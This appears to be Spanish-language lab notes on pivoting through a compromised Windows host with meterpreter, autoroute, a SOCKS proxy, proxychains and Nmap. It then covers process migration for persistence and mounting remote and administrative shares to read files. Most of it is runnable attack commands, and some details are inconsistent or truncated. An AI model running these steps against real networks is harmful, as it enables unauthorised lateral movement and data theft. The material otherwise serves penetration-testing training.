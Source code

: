 # Pivoting y Detección de Máquinas No Alcanzables vía Intermedia

## Objetivo

Acceder a una máquina interna no accesible directamente desde nuestra máquina atacante utilizando una sesión de `meterpreter` como puente (pivoting) y herramientas como `proxychains`, `socks_proxy`, `nmap` y `net use`.

---

## 1. Identificar redes internas desde la máquina intermedia

Desde la sesión `meterpreter` activa:

```bash
ipconfig
```

> Esto mostrará interfaces y posibles rangos internos.

---

## 2. Verificar accesibilidad con ping

Aún desde `meterpreter`, probar direcciones IP internas:

```bash
run post/windows/gather/ping_sweep RHOSTS=ip/24
```

---

## 3. Crear ruta hacia la red interna con autoroute

```bash
run autoroute -s ip/20
```

> Esto añade una ruta de red en Metasploit hacia el segmento 10.0.28.125/20 por la sesión actual.

---

## 4. Configurar proxychains

En tu máquina atacante, visualizar configuración:

```bash
cat /etc/proxychains4.conf
```

Verifica que incluya la línea:

```bash
socks4 127.0.0.1 9050
```

---

## 5. Crear el servidor SOCKS en Metasploit

```bash
background
use auxiliary/server/socks_proxy
show options
set SRVPORT 9050
set VERSION 4a
exploit
```

> Esto crea un proxy SOCKS que permite enrutar tráfico por la máquina intermedia.

---

## 6. Usar Nmap a través del proxy

Desde tu máquina atacante:

```bash
proxychains nmap demo1.ine.local -sT -Pn -sV -p 445
```

> Esto escanea la máquina objetivo a través del túnel creado.

---

## 7. Reabrir sesión de meterpreter

```bash
jobs
sessions -i 1
```

---

## 8. Enumerar recursos compartidos (net view)

Desde `meterpreter`:

```bash
shell
net view 10.0.28.125
```

---

## 9. Migrar a proceso con más privilegios (opcional)

```bash
CTRL + C
migrate -N explorer.exe
shell
```

---

## 10. Montar recursos remotos

Montar carpetas compartidas:

```bash
net view 10.0.28.125
net use W: \\10.0.28.125\W...
net use A: \\10.0.28.125\A$
```

---

## 11. Leer archivos compartidos

```bash
cat D:\\loquesea.txt
cat D:\\loquesea.txt
```


- Requiere privilegios suficientes para ejecutar `net use`.
- `proxychains` solo enruta aplicaciones compatibles con SOCKS (como Nmap).
- Para mantener persistencia, se recomienda migrar a procesos estables como `explorer.exe`.

